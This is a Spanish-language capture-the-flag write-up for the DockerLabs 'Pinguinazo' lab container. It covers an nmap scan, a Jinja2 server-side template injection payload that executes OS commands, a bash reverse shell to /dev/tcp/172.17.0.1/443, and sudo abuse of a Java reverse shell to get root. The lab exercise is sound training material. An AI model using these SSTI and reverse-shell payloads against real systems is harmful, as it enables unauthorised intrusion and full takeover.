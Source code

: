 # Pinguinazo

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 24/06/2024

----------------------------------------------

DESPLIEGUE

```
bash auto_deploy.sh pinguinazo.tar
```

![](./images/Pasted%20image%2020241203142400.png)

La ip es : 

```
172.17.0.2
```

----------------------------------------------------

RECONOCIMIENTO



```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 

`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  

`-sV` ⮞ Encuentra la versión del servicio abierto. 

`-sC` ⮞ Usa unos scripts de reconocimiento.

`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 

`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .

`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  

`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).


Al realizar el scaneo vemos que tenemos un puerto, el 5000

![](./images/Pasted%20image%2020241203142952.png)

Un servicio que corre upnp 

Miramos por el puerto 5000 y vemos lo siguiente : 

![](./images/Pasted%20image%2020241203143725.png)

Si metemos en PinguNombre lo siguiente: `<h1>"lo que quieras"</h1>`veremos que hay una vulnerabilidad. 



Nos levantamos un `nc` 




Podemos hacer lo siguiente : 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Y vemos que es vulnerable al SSTI (Server Side Template Injection)

Y pondremos lo siguiente: 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}
```

Y ya tendríamos conexión. 

![](./images/Pasted%20image%2020241203153421.png)

Hacemos un tratamiento de la TTY.

Y ya estaríamos más estable.

![](./images/Pasted%20image%2020241203153641.png)

Ponemos `sudo -l`

Nos da el binario java, nos meteremos en la página de https://www.revshells.com/
y pondremos nuestra IP atacante y el puerto 443. 

![](./images/Pasted%20image%2020241203154155.png)

Lo copiamos y creamos un archivo revshell.java

Y pegamos lo antenior. 


![](./images/Pasted%20image%2020241203154252.png)


Vamos a compilarlo. 

```
javac revshell.java
```

Una vez compilado nos pondremos a la escucha con `nc` por el puerto que queramos. 

Pondremos esto 

![](./images/Pasted%20image%2020241203154804.png)


![](./images/Pasted%20image%2020241203154738.png)

Ya estamos como root. 
